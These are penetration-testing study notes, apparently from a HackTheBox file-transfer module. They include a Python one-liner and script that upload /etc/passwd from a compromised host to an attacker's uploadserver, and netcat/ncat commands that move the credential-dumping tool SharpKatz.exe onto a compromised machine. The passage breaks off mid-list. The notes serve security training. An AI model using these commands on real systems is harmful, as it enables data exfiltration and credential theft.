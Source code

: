 ## Upload Operations

### Python 3
- **Tool**: `requests` module for HTTP POST requests.
- **Setup**: Start `uploadserver` on Pwnbox:
  ```bash
  python3 -m uploadserver
  # Serves on 0.0.0.0:8000
  ```
- **One-liner**:
  ```bash
  python3 -c 'import requests; requests.post("http://192.168.49.128:8000/upload", files={"files": open("/etc/passwd", "rb")})'
  ```
- **Expanded Code**:
  ```python
  import requests
  URL = "http://192.168.49.128:8000/upload"
  file = open("/etc/passwd", "rb")
  r = requests.post(URL, files={"files": file})
  ```
- **Note**: Adaptable to other languages by building similar upload logic.


# Notes on Miscellaneous File Transfer Methods

## Introduction
- Extends previous Windows/Linux file transfer methods and programming language approaches with additional techniques using Netcat, Ncat, PowerShell Remoting, and RDP.

## Netcat and Ncat

### Overview
- **Netcat (nc)**: Networking utility (1995, Hobbit) for TCP/UDP connections, unmaintained but widely used.
- **Ncat**: Modern Nmap Project reimplementation with SSL, IPv6, SOCKS/HTTP proxies, and connection brokering.
- **Note**: On HackTheBox Pwnbox, `nc`, `ncat`, and `netcat` all refer to Ncat.

### File Transfer with Netcat/Ncat
- **Scenario**: Transfer `SharpKatz.exe` from Pwnbox to a compromised machine.
- **Method 1: Compromised Machine Listens**
  - Compromised Machine (listen):
    - Netcat:
      ```bash
      nc -l -p 8000 > SharpKatz.exe
      ```
    - Ncat:
      ```bash
      ncat -l -p 8000 --recv-only > SharpKatz.exe
      ```
  - Pwnbox (send):
    - Netcat:
      ```bash
      nc -q 0 192.168.49.128 8000 < SharpKatz.exe
      ```
    - Ncat:
      ```bash
      ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
      ```
  - **Notes**: